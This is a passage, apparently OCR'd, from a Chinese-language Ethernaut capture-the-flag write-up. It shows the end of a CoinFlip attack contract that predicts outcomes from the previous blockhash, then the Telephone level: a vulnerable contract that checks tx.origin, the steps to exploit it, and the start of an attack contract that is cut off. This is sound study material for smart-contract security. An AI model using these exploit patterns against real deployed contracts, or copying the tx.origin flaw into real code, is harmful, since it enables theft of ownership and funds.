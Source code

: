         }
    
        function guess() private view returns(bool){
            uint256 blockValue = uint256(blockhash(block.number - 1));
            uint256 coinFlip = blockValue/FACOTR;
            bool side =  coinFlip == 1? true : false;
            return side;
        }
    
    }
    ```
    
- PS：
    - 在合约调用的时候，要注意gas limit的设置，超了会在remix上爆出out of gas或者reverted的错误，可以在metamaks交易确认界面设置，需要在metamask上确认10次attack都成功才行。

### telephone

- 要求：成为获取合约所有权
- 合约代码
    
    ```
    pragma solidity ^0.6.0;
    
    contract Telephone {
    
      address public owner;
    
      constructor() public {
        owner = msg.sender;
      }
    
      function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
          owner = _owner;
        }
      }
    }
    
    ```
    
- 题解步骤：
    - 改变合约所有权的只有changeOwner()函数，我们可以在攻击合约中调用该函数，此时tx.origin是我们自己的地址，而msg.sender是我们部署的攻击合约的地址，就能完成通过if获取到合约的所有权。
    - 先将攻击合约在remix上编译，部署时传入生成关卡合约的地址，调用attack()函数攻击。
    - 输入`await contract.owner()`，确认合约所有权为我们自己，提交实例关卡完成。
- 攻击合约：
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    contract Attack{
        Telephone telephone;
    
        function changeOwner(address _address) public{
            telephone=Telephone(_address);
        }
    